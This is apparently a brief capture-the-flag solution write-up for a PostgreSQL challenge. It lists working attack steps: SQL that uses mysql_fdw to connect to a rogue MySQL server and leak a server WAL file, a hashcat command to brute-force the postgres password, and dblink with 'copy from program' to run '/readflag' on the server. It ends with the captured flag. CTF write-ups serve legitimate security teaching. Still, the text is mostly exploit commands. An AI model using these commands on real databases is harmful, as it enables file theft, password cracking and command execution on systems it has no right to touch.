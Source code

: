 1. leak "/var/lib/postgresql/10/main/pg_wal/000000010000000000000001". [rogue_mysql_server](https://github.com/rmb122/rogue_mysql_server)

```sql
create server x foreign data wrapper mysql_fdw options (host $host, port '3306');
create user mapping for realuser server x options (username 'root', password '');
create foreign table y (x int) server x;
select * from y;
```

2. bruteforce the password for `postgres`

```bash
hashcat --force -m 10 $(passwd) -a 3 --custom-charset1=?l?d ?1?1?1?1?1
```

3. execute `/readflag`

```sql
create table t0(a text);
create table t1(b text);
insert into t0 (a) values ('host=0 user=postgres password=l2zq5');
insert into t1 (b) values ('copy t1 from program ''/readflag'';');
select * from dblink('host=0 user=postgres password=l2zq5', (select b from t1)) as b(a text);
```

4. flag

```
rwctf{pop_cat_says_p1ea5e_upd4t3_your_libmysqlclient_kekw}
```

